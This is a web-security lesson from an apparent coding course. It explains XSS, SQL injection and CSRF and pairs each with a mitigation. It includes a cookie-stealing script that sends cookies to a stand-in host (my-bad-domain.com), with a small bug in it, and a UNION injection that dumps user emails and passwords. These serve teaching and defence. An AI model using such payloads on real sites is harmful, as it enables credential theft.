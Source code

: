 # 4.4: Security

## Learning Objectives

1. The most vulnerable security loopholes are usually human ones such as phishing or insecure storage of passwords
2. If we follow best practices for building apps, generally our apps should be technically secure
3. Know how well-known attacks such as XSS, CSRF and SQL injection work

## Introduction

Data breaches more commonly exploit human behaviour than technical loopholes, using techniques such as phishing to retrieved credentials from privileged users. This is why cybersecurity is more often about mandating phishing training, multi-factor authentication and minimal access privileges across organisations than technical security of applications.

If we follow best practices for building apps as we have so far, our apps should be technically secure. When we deviate from standard libraries and configure authentication, database access, cloud access privileges manually, that is when security considerations become more relevant. Teams that manage sensitive data should conduct regular audits to ensure technical application security.

In this submodule we will learn about 3 well-known types of technical attacks on web applications, so common they are listed in the <a href="https://owasp.org/www-project-top-ten/" target="_blank">OWASP Top 10</a>, a publicly-maintained list of the 10 most common web application security risks. These are Cross-Site Scripting (XSS), SQL Injection and Cross-Site Request Forgery.

## Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting (aka XSS) is a type of injection attack where an attacker saves JavaScript in a system to be executed later. When executed, that JavaScript might send a request with the logged-in user's credentials to a different server, or perform an unauthorised transaction on the current server.

### Part 1: Save JavaScript to database

#### Exploit

The first part of an XSS attack is saving JavaScript to the database. We can do this by entering JavaScript into an non-sanitised form field, such as the following.

```javascript
<script>alert("Hey!")</script>
```

#### Mitigation: Validate user input

Always validate user input before saving to database. Validation logic is complicated, but luckily others have implemented convenient libraries for us and those libraries are publicly maintained. One of the most popular validation libraries is <a href="https://www.npmjs.com/package/xss" target="_blank">`xss`</a>.

### Part 2: Execute non-sanitised user input

#### Exploit

Once the app has saved our script to the database, the app should run our script every time the app retrieves that data and renders it in the frontend.

We can now make the app execute arbitrary JavaScript and alter our JavaScript to steal other users' credentials. One such exploit would be to send the logged-in user's cookies to our own server. Below is an example of such a script that creates an `img` HTML element whose `src` attribute is our URL with all cookies attached.

```html
<script>
  const allCookies = document.cookie;
  document.createElement('img'); 
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

#### Mitigation: Sanitise database values before executing

Most modern view libraries including React will automatically sanitise values before rendering them in HTML to prevent XSS attacks. To prevent this exploit, use a standard library such as React for rendering views, and if we cannot, find a <a href="https://github.com/component/escape-html" target="_blank">library to escape values</a> before rendering those values in HTML.

<a href="https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks" target="_blank">Here is React's documentation</a> on how it sanitises input before rendering it in JSX.

## SQL Injection

### Introduction

SQL injection is a type of injection attack where the attacker injects malicious SQL into user input that is subsequently executed on the database. This is commonly used to steal or corrupt data.

### Exploit: Clever SQL Syntax

Imagine the following Express logic that generates a SQL query.

```javascript
const query = `SELECT name, type FROM cats WHERE name='${request.params.name}'`
```

Now imagine instead of a valid name, we input the following to the app.

```sql
kai' UNION SELECT email, password FROM users--
```

This would generate the following SQL query, which would return all user emails and passwords.

```sql
SELECT name, type FROM cats WHERE name='kai' UNION SELECT email, password FROM users--'
```

The above example is from <a href="https://portswigger.net/web-security/sql-injection" target="_blank">Portswigger</a>, a well-known web security blog. `UNION` syntax let's us execute an additional SQL query and append results to the original.

### Mitigation: Always parameterise SQL queries

Our app is vulnerable to SQL injection because we use raw user input in our SQL query.

To prevent this, most SQL libraries such as `pg` allow us to provide user input as parameters separate from the SQL query, such that the library can sanitise that input before constructing the query. ORM libraries like Sequelize automatically sanitise input when constructing SQL queries.

## Cross-Site Request Forgery (CSRF)

### Introduction

Cross-Site Request Forgery (aka CSRF) is an attack where an attacker sends a forged request to a legitimate server to perform functionality on behalf of a user. This forged request is commonly generated by phishing, for example making the user click a link that triggers the attack functionality. This can be used to compromise user accounts by changing passwords, for example.

### Exploit Part 1: Make user click on link

If we suspect a user's browser may be storing authentication credentials, we can use phishing techniques to make that user click on a link that either changes those credentials to something we know (e.g. change password) or perform other functionality (e.g. transfer money). This link can be masked with text (e.g. "unsubscribe here") or a call to action button (e.g. "Learn More").

### Exploit Part 2: Legitimate server does not check for CSRF

As an example, if an API server's password reset route were a GET route and user credentials were stored in the browser from a previous login, attackers could craft a link to set new password credentials in the request URL while sending login credentials via cookies with the request. This is why we should always use POST or PUT requests for altering data on our servers.

### Mitigation: CSRF token and token verification

To prevent CSRF, we can protect sensitive routes that should only be accessed by specific forms (and not wild links) with cryptographic tokens called CSRF tokens. These tokens would be generated by the backend, passed to the frontend on form load and validated by the backend on form submission. This guarantees that users can only submit valid form submissions from the frontend app and nowhere else.

<a href="http://expressjs.com/en/resources/middleware/csurf.html" target="_blank">`csurf`</a> is the most popular CSRF token library for Express.
